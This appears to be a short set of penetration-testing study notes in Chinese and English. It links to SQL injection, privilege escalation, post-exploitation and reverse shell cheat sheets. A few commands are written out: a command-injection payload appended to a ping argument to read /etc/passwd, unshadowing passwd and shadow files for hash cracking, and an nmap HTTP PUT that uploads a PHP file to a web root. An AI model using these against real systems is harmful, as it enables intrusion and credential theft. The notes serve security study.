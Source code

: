 - [sql lab](https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/)


# 提权

- [Windows](https://www.fuzzysecurity.com/tutorials/16.html)
- [linux](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
- [linux 提权检查](https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py)
  关注Kernel、installed tools、cron

`/var/www/html` apache service wget

# post exploitation

- [linux](https://github.com/mubix/post-exploitation/wiki/Linux-Post-Exploitation-Command-List)
- [hash killer](https://hashkiller.io/leaks) for windows **NTLM** bypass
- [reverse shell cheat sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

```
# Linux
unshadow passwd shadow > unshadow

hashcat 要配更好的显卡
```

# trick

```
ping ip/domain;cmd

ping 10.211.55.26;cat /etc/passwd
```

```
HTTP Put  
    nmap -p80 $ip --script http-put --script-args
    http-put.url='/test/sicpwn.php',http-put.file='/var/www/html/sicpwn.php
```